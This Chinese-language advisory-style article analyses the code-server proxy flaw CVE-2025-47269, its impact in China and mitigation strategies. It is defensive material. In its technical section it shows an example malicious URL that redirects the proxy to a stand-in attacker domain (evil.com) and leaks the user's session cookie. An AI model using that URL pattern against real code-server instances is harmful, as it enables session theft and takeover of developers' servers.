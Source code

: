 # code-server 漏洞 CVE-2025-47269 分析：安全风险与应对策略

## 一、事件概述

近期，广受欢迎的代码服务器项目 code-server 披露了一个编号为 CVE-2025-47269 的高危安全漏洞，CVSS 评分高达 8.3。该漏洞存在于项目子路径代理功能中，攻击者可通过精心构造的恶意 URL 获取用户会话令牌，从而未经授权访问代码服务器实例，甚至完全控制托管服务器。这不仅威胁到使用 code-server 的开发者个人数据安全，也可能对依赖该工具的企业或组织造成严重损失。幸运的是，该漏洞已在最新版本（v 4.99.4 或更高版本）中得到修复，但事件引发了关于开源工具安全性和网络攻击风险的广泛关注。

## 二、事件描述分析

code-server 是一个开源项目，在 GitHub 上拥有超过 71,000 个 star，允许开发者在任意机器上运行 Visual Studio Code，并通过 Web 浏览器访问。这种设计的初衷是为了提升开发者的灵活性和便利性，使其能够在不同设备间无缝切换工作环境。然而，这种基于 Web 的访问模式也为安全漏洞埋下了隐患。

### 漏洞技术原理

根据安全公告，CVE-2025-47269 漏洞的核心问题在于 code-server 的代理子路径功能缺乏对请求端口的有效验证。具体而言，该功能允许系统将连接代理到本地端口以支持特定的开发需求，但攻击者可以通过构造恶意 URL，将代理重定向到外部域名。例如，一个恶意 URL 如 `https://<code-server>/proxy/test@evil.com/path`，会被 code-server 误解并代理到攻击者控制的域名 `test@evil.com/path`。在这一过程中，用户的会话 Cookie 将被无意中发送至攻击者的服务器。

会话 Cookie 是现代 Web 应用中用于维护用户登录状态的关键数据。一旦攻击者获取到这些 Cookie，他们便可以伪装成合法用户，绕过身份验证，直接访问代码服务器实例。更严重的是，攻击者还可以以运行 code-server 的用户身份，获得对托管服务器的完全控制权限。这意味着攻击者可能读取敏感文件、修改代码、删除数据，甚至在服务器上安装恶意软件或执行其他破坏性操作。

### 漏洞影响范围与严重性

该漏洞的 CVSS 评分为 8.3，属于高危级别。这一评分反映了漏洞的易利用性以及潜在后果的严重性。由于 code-server 的广泛应用，许多开发者和企业可能面临风险。特别是那些在公网环境中部署 code-server 实例的用户，如果未及时更新或采取适当的防护措施，将更容易成为攻击目标。

从技术角度看，该漏洞的利用并不需要复杂的攻击手段。攻击者只需通过社交工程（如发送钓鱼邮件）诱导用户点击恶意链接，即可触发会话 Cookie 的泄露。此外，由于 code-server 通常运行在开发环境中，其背后往往连接着大量的代码仓库和敏感数据，一旦被攻破，可能会导致更大范围的系统性风险。

### 漏洞修复与响应

值得庆幸的是，code-server 团队已经意识到了问题的严重性，并在最新版本 v 4.99.4 中发布了修复补丁。该补丁通过加强对代理功能的输入验证，确保代理请求仅限于预期的本地端口，从而有效阻止了攻击者将连接重定向到外部域名的可能性。公告中强烈建议所有用户尽快升级到最新版本，以避免潜在的安全风险。

尽管官方已提供修复方案，但此次事件依然敲响了警钟。开源工具在带来便利的同时，其安全问题往往容易被忽视。开发者在享受工具高效性的同时，是否充分关注了安全配置？企业是否为关键系统设置了多层次防护？这些问题值得深入探讨。

## 三、对我国（中国）影响分析研判

作为全球最大的开发者社区之一，中国拥有庞大的 code-server 用户群体。从个人开发者到大型科技企业，许多人都依赖这一工具进行远程开发和代码协作。因此，CVE-2025-47269 漏洞的披露对我国的网络安全环境可能产生多层次的影响。

### 个人开发者层面的威胁

在我国，code-server 的用户中不乏独立开发者或小型团队。他们往往缺乏专业的安全知识和资源，可能未及时关注安全公告，更不用说第一时间更新到最新版本。此外，许多开发者习惯于在公网环境中直接部署 code-server，以便随时随地访问开发环境。这种行为无形中增加了被攻击的风险。一旦会话 Cookie 被窃取，攻击者不仅能获取代码和项目数据，还可能通过受感染的开发环境进一步渗透到其他系统。

### 企业与组织层面的风险

对于使用 code-server 进行团队协作的科技企业而言，该漏洞的影响更为严重。我国许多互联网公司和软件开发企业将 code-server 集成到内部开发流程中，用于代码审查、测试环境搭建等关键环节。如果攻击者通过该漏洞入侵企业内部系统，可能导致核心代码泄露、商业机密丢失，甚至引发供应链攻击。例如，攻击者可以在被控制的服务器上植入恶意代码，进而影响企业的产品或服务，造成经济损失和声誉损害。

更为值得注意的是，我国企业近年来积极推动数字化转型，许多传统行业也在尝试引入开发工具以提升效率。如果这些企业未对 code-server 进行严格的安全配置，可能成为攻击者的“软目标”。特别是那些涉及关键基础设施的行业（如能源、交通、金融等），一旦受到攻击，后果将不堪设想。

### 网络安全生态的整体影响

从更宏观的视角来看，CVE-2025-47269 漏洞的出现也反映了我国网络安全生态中存在的一些共性问题。首先，开源工具的广泛使用在提升效率的同时，也带来了安全隐患。许多国内用户对开源软件的安全问题缺乏足够重视，往往直接使用默认配置，而未进行额外的安全加固。其次，网络安全意识和响应能力的不足使得许多用户在漏洞披露后未能及时采取措施，从而延长了风险窗口期。

此外，我国作为网络攻击的主要目标之一，国内外攻击者可能借此漏洞对国内目标发起定向攻击。尤其是在当前复杂的国际网络安全形势下，该漏洞可能被用作网络间谍活动或数据窃取的入口，进一步威胁国家信息安全。

### 潜在的积极影响

尽管漏洞本身带来了诸多风险，但如果能够妥善应对，此次事件也可能成为推动我国网络安全建设的一个契机。漏洞的披露为广大用户敲响了警钟，可能促使更多个人和企业关注代码服务器的安全配置问题。同时，政府和行业组织可以借此机会加强网络安全宣传，提升用户的防护意识。此外，国内安全厂商和研究机构也可以抓住机会，针对类似漏洞开发更高效的检测和防御工具，从而提升整体网络安全水平。

## 四、应对策略

面对 CVE-2025-47269 漏洞带来的安全威胁，我国需要在个人、企业和国家层面采取多维度、系统性的应对措施，以降低风险并防患于未然。

### 个人开发者层面的防护

对于个人开发者而言，最直接有效的应对策略是立即更新 code-server 到官方推荐的最新版本（v 4.99.4 或更高版本）。在更新之前，建议暂停在公网环境下的代码服务器访问，以避免被攻击者利用。此外，开发者应检查自己的代码服务器是否启用了强身份验证（如多因素认证），并确保会话 Cookie 的安全存储和传输。

同时，开发者需要提高安全意识，警惕可能通过电子邮件、社交媒体等方式传播的恶意链接。避免点击未知来源的 URL，尤其是在涉及代码服务器访问的场景下。如果发现异常访问或数据泄露，应立即更改相关密码，并对系统进行全面安全检查。

### 企业与组织层面的安全措施

企业在应对该漏洞时，应从技术和管理两个层面入手。首先，IT 部门需对所有使用 code-server 的实例进行全面排查，确保已升级到安全版本。对于无法立即更新的系统，应临时切断公网访问，或通过防火墙设置严格的访问控制策略，限制代理功能的外部调用。

其次，企业应加强内部安全培训，帮助员工识别钓鱼攻击和恶意链接，提升整体安全意识。此外，可以引入专业的安全工具，对网络流量和系统日志进行实时监控，及时发现潜在的异常行为。如果条件允许，企业还应考虑部署入侵检测系统（IDS）和入侵防御系统（IPS），以进一步增强防护能力。

从长远来看，企业应建立完善的漏洞响应机制，确保在未来类似事件发生时能够快速反应。这包括定期更新软件、执行安全审计，以及与网络安全厂商合作，获取最新的威胁情报。

### 国家与行业层面的政策支持

在国家层面，政府应加强对网络安全漏洞的监测和预警能力，建立覆盖广泛的漏洞信息共享平台，及时向企业和公众发布安全公告。对于像 code-server 这样的高影响漏洞，可以通过官方渠道推送紧急通知，确保用户尽早采取防护措施。

同时，政府和行业组织应加大对网络安全的投入，支持国内安全技术的研究与开发。例如，可以鼓励安全厂商针对开源软件开发自动化 vulnerability 扫描工具，帮助用户快速识别潜在风险。此外，应加强网络安全法律法规的制定和执行，对关键信息基础设施的保护提出更高要求，督促相关企业落实安全责任。

在国际合作方面，我国可以积极参与全球网络安全治理，与其他国家和组织共享漏洞情报，共同应对跨国网络威胁。这不仅有助于提升自身的防御能力，也能为构建更加安全的全球网络环境贡献力量。

### 技术社区与开源生态的协同应对

开源社区在此次事件中也应承担起重要责任。code-server 的开发团队需要在未来的版本中持续优化安全机制，确保类似问题不再发生。同时，国内的技术社区可以组织安全专家对代码进行审查，主动发现潜在漏洞，并向官方提交修复建议。

此外，社区还可以开展安全知识普及活动，通过论坛、博客等形式分享最佳实践，帮助用户正确配置和使用 code-server。这不仅能降低漏洞被利用的概率，也有助于提升整个开发社区的安全意识。

## 五、结论

CVE-2025-47269 漏洞的披露为我们敲响了网络安全警钟，提醒我们在享受技术便利的同时，绝不能忽视潜在的安全风险。作为一个广受欢迎的开发工具，code-server 的安全问题不仅影响个人开发者的数据安全，也可能对企业乃至整个网络生态造成深远影响。对我国而言，此次事件既是挑战，也是机遇。通过及时更新软件、加强安全防护、提升安全意识，我们可以在一定程度上降低风险。同时，政府、企业和社区的协同努力将为构建更安全的网络环境奠定基础。

未来，随着数字化进程的不断加速，类似的安全漏洞可能还会层出不穷。我们需要以更加主动的姿态迎接挑战，建立完善的漏洞管理和响应机制，确保技术发展与安全保障同步推进。只有这样，才能在快速变化的网络安全形势中立于不败之地，真正实现技术赋能与安全可控的平衡。